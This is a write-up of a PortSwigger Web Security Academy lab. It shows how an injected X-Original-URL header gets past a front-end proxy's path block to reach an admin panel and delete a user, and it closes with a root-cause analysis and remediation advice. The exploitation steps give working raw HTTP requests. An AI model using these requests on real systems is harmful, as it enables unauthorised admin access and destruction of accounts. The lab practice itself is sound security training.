






# Lab Writeup: URL-Based Access Control Can Be Circumvented

> **Platform:** PortSwigger Web Security Academy  
> **Category:** Access Control  
> **Difficulty:** Practitioner  
> **Status:** ✅ Solved  

---

## Table of Contents

- [Overview](#overview)
- [Vulnerability Description](#vulnerability-description)
- [Tools Used](#tools-used)
- [Exploitation Steps](#exploitation-steps)
  - [Step 1 — Confirm Access Restriction on /admin](#step-1--confirm-access-restriction-on-admin)
  - [Step 2 — Probe for X-Original-URL Header Support](#step-2--probe-for-x-original-url-header-support)
  - [Step 3 — Access Admin Panel via Header Injection](#step-3--access-admin-panel-via-header-injection)
  - [Step 4 — Delete Target User via Header Injection](#step-4--delete-target-user-via-header-injection)
  - [Step 5 — Lab Solved](#step-5--lab-solved)
- [Root Cause Analysis](#root-cause-analysis)
- [Remediation](#remediation)
- [Key Takeaways](#key-takeaways)

---

## Overview

This lab demonstrates how front-end access controls that rely solely on URL path matching can be bypassed when the back-end application honours non-standard HTTP headers such as `X-Original-URL`. An attacker can route a request to a restricted path by manipulating this header, completely circumventing the front-end's security enforcement.

**Objective:** Access the unauthenticated admin panel at `/admin` and delete the user `carlos`.



---

## Vulnerability Description

| Attribute | Detail |
|-----------|--------|
| **Vulnerability Type** | Broken Access Control / HTTP Header Injection |
| **OWASP Category** | A01:2021 – Broken Access Control |
| **Affected Component** | Front-end reverse proxy (URL-based ACL) |
| **Root Cause** | Back-end framework trusts `X-Original-URL` header set by the client |
| **Impact** | Full admin panel access without authentication |

The application architecture consists of two layers:
- A **front-end proxy** that blocks requests to `/admin` based on the URL path.
- A **back-end application** built on a framework (e.g. Spring / Django with certain configurations) that reads the `X-Original-URL` header to determine the actual URL to process, overriding the real request path.

Because the front-end only inspects the raw request path and the back-end trusts the override header, an attacker can send a request to `/` (which is permitted) while instructing the back-end to process `/admin` instead.

---

## Tools Used

- **Burp Suite** – HTTP interception, request modification, and replay
- **Browser** – PortSwigger Web Security Academy lab environment

---

## Exploitation Steps

### Step 1 — Confirm Access Restriction on `/admin`

A direct `GET /admin` request was sent using Burp Suite's Repeater. The front-end proxy returned a `403 Forbidden` response with the body `"Access denied"`, confirming that the path-based access control is in place.

```http
GET /admin HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session-token>
```

**Response:**
```
HTTP/2 403 Forbidden
"Access denied"
```



---

### Step 2 — Probe for X-Original-URL Header Support

To verify whether the back-end honours the `X-Original-URL` header, the request was modified to target `/` (a permitted path) while injecting `X-Original-URL: /invalid` — a path guaranteed not to exist.

```http
GET / HTTP/2
Host: <lab-id>.web-security-academy.net
X-Original-Url: /invalid
Cookie: session=<session-token>
```

**Response:**
```
HTTP/2 404 Not Found
"Not Found"
```

The `404 Not Found` response (rather than `403 Forbidden`) proves the back-end is processing the value of `X-Original-URL` rather than the real request path. If the header were ignored, the response would have been `200 OK` for `/`.



---

### Step 3 — Access Admin Panel via Header Injection

With header support confirmed, the `X-Original-URL` value was changed to `/admin`. The front-end sees a request to `/` and allows it through; the back-end then processes `/admin`.

```http
GET / HTTP/2
Host: <lab-id>.web-security-academy.net
X-Original-Url: /admin
Cookie: session=<session-token>
```

**Response:**
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
```

The full admin panel HTML was returned, confirming successful access control bypass.



---

### Step 4 — Delete Target User via Header Injection

From the admin panel HTML, the delete endpoint was identified as `/admin/delete?username=<user>`. The same technique was applied — the real request path was set to `/` with a query string, while `X-Original-URL` pointed to the delete action.

```http
GET /?username=carlos HTTP/2
Host: <lab-id>.web-security-academy.net
X-Original-Url: /admin/delete
Cookie: session=<session-token>
```

> **Note:** The query string parameters must be placed on the real request path (not in the header), as the back-end appends them to the resolved URL from `X-Original-URL`.

**Response:**
```
HTTP/2 302 Found
Location: /admin
```

The `302` redirect to `/admin` confirms the delete action was executed successfully.



---

### Step 5 — Lab Solved

Upon following the redirect (or revisiting the site), the lab was marked as solved.



---

## Root Cause Analysis

```
Client Request (GET /)           Front-End Proxy              Back-End Application
        │                               │                              │
        │  GET / HTTP/2                 │                              │
        │  X-Original-URL: /admin       │                              │
        │──────────────────────────────>│                              │
        │                               │  Path = "/"  → ALLOWED       │
        │                               │──────────────────────────────>
        │                               │                              │
        │                               │         Reads X-Original-URL │
        │                               │         Processes: /admin    │
        │                               │<─────────────────────────────
        │  HTTP 200 OK (admin panel)    │                              │
        │<──────────────────────────────│                              │
```

The vulnerability arises from a **trust boundary mismatch**:

1. The **front-end** enforces access control based on the **real URL path** only.
2. The **back-end** resolves the actual resource using the **`X-Original-URL` header**, which is typically intended for internal proxy-to-proxy communication.
3. There is **no validation** that the `X-Original-URL` header was set by a trusted internal proxy rather than an external client.

---

## Remediation

| Recommendation | Description |
|----------------|-------------|
| **Strip client-supplied override headers** | The front-end proxy should strip `X-Original-URL`, `X-Forwarded-URL`, and similar headers from all incoming external requests before forwarding to the back-end. |
| **Enforce access control at the back-end** | Access control logic should not rely solely on the front-end layer. The back-end should independently verify authorization for every sensitive endpoint. |
| **Apply defence-in-depth** | Use multiple layers of access control: network-level, application-level, and session/role-based checks at the back-end. |
| **Audit trusted headers** | Review all HTTP headers the back-end framework treats as authoritative and ensure they can only be set by internal, trusted infrastructure. |

---

## Key Takeaways

- **Never trust client-controlled headers** for routing or access control decisions. Headers like `X-Original-URL`, `X-Rewrite-URL`, and `X-Forwarded-For` are designed for internal proxy communication.
- **Access control must be enforced at every layer.** A front-end block is not sufficient if the back-end can be reached via a different logical path.
- **Probing with known-invalid values** (e.g. `/invalid`) is a reliable technique to determine whether an override header is being processed by the back-end.
- This class of vulnerability is particularly dangerous because it can bypass authentication entirely on admin panels and internal tooling.

---

*Writeup produced as part of PortSwigger Web Security Academy lab practice.*
